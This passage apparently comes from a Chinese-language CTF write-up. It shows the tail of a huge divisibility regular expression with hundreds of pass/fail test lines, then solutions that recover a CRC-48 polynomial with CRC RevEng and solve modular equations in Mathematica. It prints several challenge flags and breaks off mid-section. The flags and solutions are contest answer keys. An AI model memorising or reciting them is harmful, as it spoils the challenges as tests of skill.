|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9)))|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8)))|((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9)))|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9)))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*
Pass 14051580590046974443 True True
Pass 12061713552817874080 False False
Pass 14315109669543684618 True True
Pass 12203033995781529728 False False
Pass 15665855886658499411 True True
Pass 11437726730573830218 False False
Pass 14009848816282558062 True True
Pass 15344079593040884793 False False
Pass 17139637912283578856 True True
Pass 17110632756416993646 False False
Pass 10536936382002342990 True True
Pass 14072239181900988841 False False
Pass 8702101002081049647 True True
Pass 2921591519024569187 False False
Pass 12473808099264063672 True True
Pass 3904680190638761231 False False
Pass 7992687297935683130 True True
Pass 12289678949089579036 False False
Pass 8498760134067767164 True True
Pass 11621037675847084998 False False
Pass 3952593864343500135 True True
Pass 1933854189830549694 False False
Pass 17781222851351985281 True True
Pass 7012714147559378649 False False
Pass 9243995196214237611 True True
Pass 11993391256132302369 False False
Pass 1454434576443129640 True True
Pass 7375059459016857219 False False
Pass 15484151980129222577 True True
Pass 8277825267223074444 False False
Pass 190551057320234812 True True
Pass 3029213666298393810 False False
Pass 3196332339338691465 True True
Pass 6787948860272529971 False False
Pass 4192474891079414880 True True
Pass 13008866609081056574 False False
Pass 15106096191613170822 True True
Pass 11014578719683777708 False False
Pass 13338719652631577203 True True
Pass 1943884975003284746 False False
Pass 12391102355536903239 True True
Pass 15552375892306319686 False False
Pass 1482305006618631430 True True
Pass 11572503109399587665 False False
Pass 16372517956418857998 True True
Pass 8203609726423421103 False False
Pass 2149589768611397679 True True
Pass 16044013903756919293 False False
Pass 4334688566693068097 True True
Pass 290588072854780569 False False
Pass 11042693795654363034 True True
Pass 3177099326673197984 False False
Pass 17915913161701045387 True True
Pass 5028962021777803272 False False
Pass 1801920361136923187 True True
Pass 6501215280124736394 False False
Pass 6251550830255098964 True True
Pass 16881863339610226596 False False
Pass 6042428399999106674 True True
Pass 11137091046744385055 False False
Pass 8006808253544892748 True True
Pass 4314397174428695770 False False
Pass 13805541762365793469 True True
Pass 9990851358183166636 False False
Pass 13663326330955605604 True True
Pass 11020363402747686978 False False
Pass 6730409514545575490 True True
Pass 15229431407202545863 False False
Pass 2285159461074668915 True True
Pass 7278982996117888272 False False
Pass 16564038503761102680 True True
Pass 5194412369306164305 False False
Pass 15918493056557810121 True True
Pass 6044752221653995664 False False
Pass 1243780254880787523 True True
Pass 15648883873646455443 False False
Pass 14242034024783107341 True True
Pass 4955792229403838944 False False
Pass 13103120807773742915 True True
Pass 12225156726489997766 False False
Pass 2693973707940966252 True True
Pass 16873570544335779425 False False
Pass 1976537090336621987 True True
Pass 11024580937006317042 False False
Pass 7790789690843333253 True True
Pass 16672500929107204273 False False
Pass 5800844087943804755 True True
Pass 6138747967222279948 False False
Pass 6274577807755504850 True True
Pass 13795391663796097791 False False
Pass 13853797815923763017 True True
Pass 6563707732032231776 False False
Pass 16548840211353681190 True True
Pass 8187469209485964218 False False
Pass 5364453363646715719 True True
Pass 9936581311515630357 False False
Pass 4129943863260573851 True True
Pass 2086114575699695706 False False
Pass 16574491158777030856 True True
Pass 8242523832607575948 False False
Pass 16015800220046401590 True True
Pass 15229162308447779219 False False
Pass 6257708375710659 True True
Pass 17166625003754456437 False False
Pass 10646682267290481630 True True
Pass 137208273230323230 False False
Pass 5257230893405064332 True True
Pass 14338457916219540781 False False
Pass 6067507727818574773 True True
Pass 13572463901417621108 False False
Pass 984887688342208230 True True
Pass 1018496110063636706 False False
Pass 14643563214334523111 True True
Pass 8644191680456256693 False False
Pass 8897295276889575863 True True
Pass 10564527899248559270 False False
Pass 16620313860857557691 True True
Pass 17074387950065664561 False False
Pass 6569210729572179763 True True
Pass 906311847511179821 False False
Pass 7018995988460988068 True True
Pass 17744899158280246040 False False
Pass 9504340573061896723 True True
Pass 4921076820132183128 False False
Pass 13484171683782865792 True True
Pass 10981845806748057580 False False
Pass 3190660883476281188 True True
Pass 10343123028164351955 False False
Pass 7055932047867277087 True True
Pass 9041367207450193775 False False
Pass 12279228212053309138 True True
Pass 5035650937630452866 False False
Pass 12337089300108824009 True True
Pass 6624360771235710236 False False
Pass 17299207922607779725 True True
Pass 12148129306518963899 False False
Pass 4313529471813064565 True True
Pass 5005636162022463260 False False
Pass 13484990377782779919 True True
Pass 17274100152308270132 False False
Pass 3798664320507161096 True True
Pass 17854023669441362165 False False
Pass 17559344803719769496 True True
Pass 5263424954447743802 False False
Pass 15721930154152757276 True True
Pass 11239491919452050670 False False
Pass 17014522132395354284 True True
Pass 5852813379552391588 False False
Pass 12408217311315862119 True True
Pass 12974639088604625281 False False
Pass 1452488328349783990 True True
Pass 8776625331623556215 False False
Pass 15085923071337710009 True True
Pass 17617559761055398733 False False
Pass 8262526411764760551 True True
Pass 334929455148210480 False False
Pass 1294796759449952322 True True
Pass 13267195088412426129 False False
Pass 7732583662763570579 True True
Pass 18221233003618647235 False False
Pass 8241475845683823261 True True
Pass 6139871234341335863 False False
Pass 18222306115872755053 True True
Pass 16925520388490862127 False False
Pass 2245701401907189975 True True
Pass 13460625305967124107 False False
Pass 5950132877972830274 True True
Pass 7087979751021565633 False False
Pass 15162795755803017219 True True
Pass 5737990778721455000 False False
Pass 5308202282749485885 True True
Pass 10876400299315260248 False False
Pass 16652858568014677996 True True
Pass 2548135248773373324 False False
Pass 17844501024986367608 True True
Pass 889166773195120392 False False
Pass 18071271661076246651 True True
Pass 14175200817681467771 False False
Pass 10744676916104059431 True True
Pass 9089272294986756044 False False
Pass 14310211966448861314 True True
Pass 12474494931521733765 False False
Pass 7524188550445081260 True True
Pass 2929638337773128112 False False
Pass 10141239619246703101 True True
Pass 5846218950048174086 False False
Pass 5649370930439724417 True True
Pass 10111269556078561422 False False
Pass 16302162595368736628 True True
Pass 5161209884711745365 False False
Pass 17336153399276598606 True True
Pass 14564861611443156121 False False
Pass 8403127994214837788 True True
Pass 9695552608079885192 False False
Pass 4904000750108810721 True True
Pass 10204361859417126516 False False
Pass 15309262151093896020 True True
Pass 8759232611259091448 False False
Pass 2194148625595740081 True True
Pass 15527945389304113739 False False
Pass 16492760603760339692 True True
Pass 16593338352191919688 False False
Pass 10271912393324939686 True True
Pass 15341577181355416670 False False
Pass 8291790312803461299 True True
Pass 1801925965560641226 False False
Pass 3449048055134519503 True True
Pass 5297180116866871930 False False
Pass 5013530544666145596 True True
Pass 3776332560202512747 False False
Pass 1713348273431822007 True True
Pass 2075166268325291563 False False
Pass 6186342219389241267 True True
Pass 402726889130810681 False False
Pass 10353116765296476878 True True
Pass 7972262951887579348 False False
Pass 11805740960170059836 True True
Pass 1686901246792921299 False False
Pass 12292005679757572216 True True
Pass 11993703221269605274 False False
Pass 5638024653653009769 True True
Pass 12358545388203622479 False False
Pass 7418812630599011981 True True
Pass 5219353347894091382 False False
Pass 11636334754911255470 True True
Pass 8715554798007870131 False False
Pass 5050042542628353237 True True
Pass 2816833441039201961 False False
Pass 8947537013797248240 True True
Pass 10979420512609646487 False False
Pass 8026470453380767880 True True
Pass 12890420195576526845 False False
Pass 10740551411473808711 True True
Pass 15890792223670679989 False False
Pass 17859227865191715658 True True
Pass 14259587773397959328 False False
Pass 11929734901729476321 True True
Pass 13877699281907970601 False False
Pass 17141901618781755880 True True
Pass 1696754277565083824 False False
Pass 10409300031618860485 True True
Pass 18150657789061195390 False False
Pass 5799696411058093295 True True
Pass 13992778142520029557 False False
Pass 9582019530757580689 True True
Pass 2884710099172523494 False False
Pass 18334357720315468341 True True
Pass 15261760821244024991 False False
Pass 13460752113232155545 True True
Pass 3135834356843843320 False False
Pass 599136316026484614 True True
Pass 13009491781948080986 False False
Pass 4466681707522882378 True True
Pass 15862572665186469750 False False
Pass 13012929648294997044 True True
Pass 17306000822469444903 False False
Pass 10951469635854863363 True True
Pass 17595245950949708800 False False
Pass 8512714955031816058 True True
Pass 14584483187113293321 False False
Pass 10017449621464707173 True True
Pass 8177008767332594024 False False
Pass 11687032492236850729 True True
Pass 13974378159530176903 False False
Pass 3105979256678250344 True True
Pass 9018456140096983167 False False
Pass 12862108605296599016 True True
Pass 14824195422166708715 False False
Pass 10131360986413750511 True True
Pass 15583854707485765908 False False
Pass 10491341482441224735 True True
Pass 14955729353010692104 False False
Pass 15222730474224022156 True True
Pass 7879731509304679661 False False
Pass 14754336663231643663 True True
Pass 2260378941879394555 False False
Pass 16613360931208257945 True True
Pass 12622838325436478508 False False
Pass 8980305374015212768 True True
Pass 18318922658610048696 False False
Pass 6090886444656749284 True True
Pass 3329073994843061295 False False
Pass 3705717389931984804 True True
Pass 14753962485667950408 False False
Pass 316113231837746333 True True
Pass 476088168533600121 False False
Pass 15803537037715551643 True True
Pass 13788071716741107317 False False
Pass 11822832083426020521 True True
Pass 7278824498668998848 False False
Pass 10908997278848506675 True True
Pass 18101722224330065930 False False
Pass 17734223028054142268 True True
Pass 976094443493404958 False False
Pass 1312824164223147125 True True
Pass 8157192817737239711 False False
Pass 4216997223271576961 True True
Pass 12005361450363606815 False False
Pass 9560401244383794031 True True
Pass 11647151692056786646 False False
flag{p0werful_r3gular_expr3ssion_hard_e4ce4b1000}
```
这个纯粹摆烂，不想优化了。

## \[math\] 惜字如金 3.0
### \[Flag 1\] 题目 A
完形填空罢了。
```
正确！你的 flag 是：flag{C0mpl3ted-Th3-Pyth0n-C0de-N0w}
```

### \[Flag 2\] 题目 B
第 7 行以外仍是完形填空，而且和题目 A 别无二致。所以重点在第 7 行。
```Python
    poly, poly_degree = 'B', 48 
```
可以看到第 7 行的变量名都没甚么异常，应该是在 `'B` 后删掉了 48 个 `[Bb]`。

为了搞清楚这个 Hash 到底会有哪些预期结果，可以故意搞错几行采个样。
```Python
#!/usr/bin/python1                                                              
#!/usr/bin/python2                                                              
#!/usr/bin/python4                                                              
#!/usr/bin/python5                                                              
#!/usr/bin/python6                                                              
```
```
行号	错误信息
1	Unmatched hash (19dd78f4bc3c)
2	Unmatched hash (cf36e90c66a4)
3	Unmatched hash (99ca6403f5b1)
4	Unmatched hash (8fd5c6fd8c5d)
5	Unmatched hash (9d8b0c81fe79)
```
其实仔细看代码的话可以发现 CRC 部分是倒转的 CRC-48——具体来说，输入是每 8 位倒转位序，输出是整个 48 位倒转位序。那可以直接用 CRC RevEng 爆了。我用的是[网页版](https://crc-reveng.septs.app/)。
```
$ reveng -w 48 -i ffffffffffff -b -x ffffffffffff -s c484f4aece4ef4469676f40e9e2e16f6768c04040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404043e65ef7eefef c484f4aece4ef4469676f40e9e2e16f6764c04040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404046131341569be c484f4aece4ef4469676f40e9e2e16f6762c04040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404048a515211730b c484f4aece4ef4469676f40e9e2e16f676ac0404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404e0363fa38895 c484f4aece4ef4469676f40e9e2e16f6766c0404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404040404bf62e4c80ec4
width=48  poly=0x89941763b33b  init=0xffffffffffff  refin=false  refout=false  xorout=0xffffffffffff  check=0xe0b62d989f8b  residue=0xeaf6010e7ab4  name=(none)
```
你问我 Hash 前的 CRC 是怎么来的？那当然是用 Mathematica 解的啊——每个 Hash 对应 2 种 CRC，也就只需要穷举 32 次嘛（笑）
```Wolfram
Solve[Mod[241818181881667x^2 + 279270832074457x + 202208575380941, 2^48] == 66782253079833 && 0 <= x < 2^48, {x}, Integers]
{{x->151735510046673},{x->272642359142012}}
Solve[Mod[241818181881667x^2 + 279270832074457x + 202208575380941, 2^48] == 180758210229967 && 0 <= x < 2^48, {x}, Integers]
{{x->4816872419783},{x->138086020058246}}
Solve[Mod[241818181881667x^2 + 279270832074457x + 202208575380941, 2^48] == 195665882040985 && 0 <= x < 2^48, {x}, Integers]
{{x->194792400761852},{x->229585468426833}}
Solve[Mod[241818181881667x^2 + 279270832074457x + 202208575380941, 2^48] == 102860134471055 && 0 <= x < 2^48, {x}, Integers]
{{x->185893801192455},{x->238484067996230}}
Solve[Mod[241818181881667x^2 + 279270832074457x + 202208575380941, 2^48] == 134133993737117 && 0 <= x < 2^48, {x}, Integers]
{{x->38964264650493},{x->103938627827536}}
```
```
正确！你的 flag 是：flag{Succe55fu11y-Deduced-A-CRC-Po1ynomia1}
```
### 附注
我初次用到 CRC-RevEng 就是在这题，所以不熟参数——其实只要指定 `-l` 就可以直接按倒转序输入，不过这时 CRC 部分就要以小端序表示了。
```
$ reveng -w 48 -i ffffffffffff -l -x ffffffffffff -s 23212f7573722f62696e2f707974686f6e3120202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020207ca6f77ef7f7 23212f7573722f62696e2f707974686f6e322020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020868c2ca8967d 23212f7573722f62696e2f707974686f6e342020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020518a4a88ced0 23212f7573722f62696e2f707974686f6e352020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020076cfcc511a9 23212f7573722f62696e2f707974686f6e362020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020202020fd4627137023
width=48  poly=0x89941763b33b  init=0xffffffffffff  refin=true  refout=true  xorout=0xffffffffffff  check=0xaacdc7226ad3  residue=0x2d5e70806f57  name=(none)
```
refin 表示输入倒转，refout 表示输出倒转。以小端序表示的倒转 CRC 实际上等效于每 8 位倒转以大端序表示的正向 CRC 位序的结果。

不得不说这个没必要的倒转还原费了我不少时间，不然早出了。

### \[Flag 3\] 题目 C
这次相较题目 B，则是把 Hash 乘数也惜字如金掉了。仍然有大小写的问题罢。

但是至少，先把多项式爆了。
```Python
#!/usr/bin/python1                                                              
#!/usr/bin/python2                                                              
#!/usr/bin/python4                                                              
#!/usr/bin/python5                                                              
#!/usr/bin/python6                                                              
```
```
行号	错误信息
